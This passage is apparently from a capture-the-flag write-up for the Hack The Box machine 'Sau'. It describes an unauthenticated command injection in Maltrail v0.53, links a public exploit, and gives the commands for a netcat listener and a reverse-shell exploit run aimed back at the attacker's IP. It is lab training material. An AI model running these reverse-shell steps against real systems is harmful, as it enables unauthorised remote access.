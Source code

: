 \
Googling 'MailTrail v0.53' we discover that's vulnerable to an unauthenticated OS Command Injection (RCE)

{% embed url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

the `username` parameter of the **login page** doesn't properly sanitize the input, allowing an attacker to inject OS commands.

The exploit creates a reverse shell payload encoded in Base64 to bypass potential protections like WAF, IPS or IDS and delivers it to the target URL using a curl command The payload is then executed on the target system, establishing a reverse shell connection back to the attacker's specified IP and port.

<figure><img src="../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

Attacker machine:

```bash
#first check our IP using ip a
nc -nvlp 4444
```

Target Machine

```bash
python3 exploit.py 10.10.14.6 4444 http://sau.htb:55555/hbvoml
```

<figure><img src="../.gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>
